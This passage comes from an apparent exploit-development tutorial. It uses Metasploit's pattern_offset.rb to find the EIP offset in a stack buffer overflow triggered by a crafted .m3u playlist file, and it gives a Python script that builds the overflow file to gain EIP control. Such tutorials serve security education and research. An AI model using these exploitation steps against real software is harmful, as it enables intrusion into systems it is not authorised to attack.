 Let's generate the file with metasploit and load it within the debugger.

![Debugger](/assets/img/posts/4p0cryph0n/chapter1/image9.png)

As I said before, the one that is highlighted in green is the value stored in ESP. If you go one address up in the stack window, you will see what's stored in EIP. `J8bj` in my case. Now, let's find out how many bytes did it take to reach EIP using `pattern_offset.rb`.

`/usr/share/metasploit-framework/tools/pattern_offset.rb -q j8bj`

I get the offset as 1075. So now, my final structure will look something like this:

`"A"*(25000+1075) + "BBBB" + "C"*(30000-((25000+1075) + 4)`


```python
import os
import sys

f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
junk2 = "C"*(30000-(len(junk1+eip)))
crash = junk1 + eip + junk2
f.write(crash)
f.close()
```

Now, let's see if our Math game is strong ;)

![EIP Control](/assets/img/posts/4p0cryph0n/chapter1/image10.png)

Yess! We now have control of the EIP which determines the next instructions to be executed. If you made it this far give yourself a pat on the back! In the next chapter we'll be generating and placing shellcode then with our control over EIP executing our payload.
